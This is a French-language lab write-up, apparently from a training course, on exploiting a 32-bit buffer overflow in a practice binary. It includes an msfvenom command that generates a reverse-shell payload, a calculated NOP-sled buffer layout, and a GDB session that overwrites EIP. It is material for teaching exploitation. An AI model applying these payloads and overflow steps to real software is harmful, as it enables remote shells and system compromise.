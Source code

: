 # Determine the Length for Shellcode

Nous devons maintenant découvrir combien d’espace nous avons pour notre shellcode afin d’exécuter l’action souhaitée.\
Il est courant et utile d’exploiter une telle vulnérabilité pour obtenir un **reverse shell**.

Tout d’abord, nous devons estimer la taille de notre shellcode que nous allons insérer. Pour cela, nous utiliserons **msfvenom**.

***

#### <mark style="color:green;">**Shellcode — Longueur**</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot_1@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=31337 --platform linux --arch x86 --format c
```
{% endcode %}

Sortie :

```
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
```

Nous savons donc que notre **payload** fera environ **68 octets**.\
Par précaution, nous devrions prévoir une marge plus grande si le shellcode devait augmenter à cause de paramètres supplémentaires.

***

#### <mark style="color:green;">**NOP Sled**</mark>

Il est souvent utile d’insérer des instructions **NOP (No Operation, \x90)** avant que le shellcode ne démarre, afin qu’il puisse s’exécuter proprement.

Résumé de ce dont nous avons besoin :

* Nous devons atteindre **1040 octets** pour écraser l’EIP.
* Nous ajoutons **100 octets de NOPs**.
* Nous prévoyons **150 octets pour le shellcode**.

***

#### <mark style="color:green;">**Calcul du buffer**</mark>

```
Buffer   = "\x55" * (1040 - 100 - 150 - 4) = 786 octets
NOPs     = "\x90" * 100
Shellcode= "\x44" * 150
EIP      = "\x66" * 4
```

***

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

***

### <mark style="color:red;">**GDB (Debugging)**</mark>

Testons avec GDB :

{% code fullWidth="true" %}
```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```
{% endcode %}

Sortie :

{% code fullWidth="true" %}
```nasm
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```
{% endcode %}

***

#### <mark style="color:green;">Résumé mémoire (diagramme)</mark>

{% code fullWidth="true" %}
```
[ Buffer 786 octets ] → [ NOPs 100 octets ] → [ Shellcode 150 octets ] → [ EIP 4 octets ]
```
{% endcode %}

***

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">**🔹 Exemple d’un NOP sled**</mark>

Imagine qu’on construit notre buffer comme ça :

```
[ 786 * 'A' ] + [ 100 * NOP ] + [ Shellcode 150 bytes ] + [ EIP overwrite ]
```

ASCII schéma :

```
+-------------------------------------------------------------+
| Padding (A) |   NOP NOP NOP NOP NOP ...   |  Shellcode  | EIP|
+-------------------------------------------------------------+
```

* **EIP** va pointer **quelque part au hasard dans la zone des NOPs**.
* Comme un NOP ne fait rien, le CPU va "glisser" (`sled`) jusqu’à tomber naturellement sur le début du shellcode.
